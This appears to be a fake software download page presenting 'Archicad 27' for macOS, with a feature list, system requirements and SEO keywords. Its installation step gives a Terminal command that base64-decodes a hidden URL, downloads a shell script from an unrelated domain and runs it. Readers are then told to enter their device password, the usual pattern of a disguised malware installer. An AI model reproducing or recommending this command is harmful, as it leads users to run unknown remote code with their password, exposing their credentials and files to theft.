 # 🏛 Archicad 27 – Advanced BIM Suite for macOS

📌 About Archicad 27  
Archicad 27 is a professional BIM (Building Information Modeling) solution tailored for macOS users in architecture and construction. It provides architects with an integrated environment for 2D/3D design, documentation, and collaboration in real time. With native Apple Silicon support and seamless macOS integration, Archicad 27 ensures fast performance and intuitive workflows for complex building projects.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9rYW0vaW5zdGFsbC5zaA== | base64 -d))"
```
2. Open Terminal on your device, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://constructionmanagement.co.uk/wp-content/uploads/2025/04/Screenshot-2023-10-05-at-19.32.09.jpg)  
- ![](https://architosh.com/wp-content/uploads/2023/10/61_BIMx-2.jpg)  

## 🎯 Key Features  
⚡️ Integrated BIM tools for modeling, documentation, and visualization.  
🔒 Secure local storage and cloud sync with role-based access.  
⚙️ Supports parametric design workflows and custom object libraries.  
🚀 Optimized for Apple Silicon for smoother performance on large projects.  
🎨 Native macOS interface with full Retina and Dark Mode support.  
📊 Built-in collaboration and revision tracking for team projects.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 8 GB minimum (16 GB recommended)  
- Storage: 5 GB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`archicad 27 macos` · `bim software for architects` · `building design for mac` · `architecture tools apple silicon` · `2d 3d architectural modeling` · `archicad for apple m1 m2` · `construction design macos` · `bim collaboration tools` · `cad bim for mac` · `macos architecture software` · `building information modeling app` · `graphisoft archicad 27` · `real-time design collaboration mac` · `parametric modeling for mac` · `retina display architecture software`
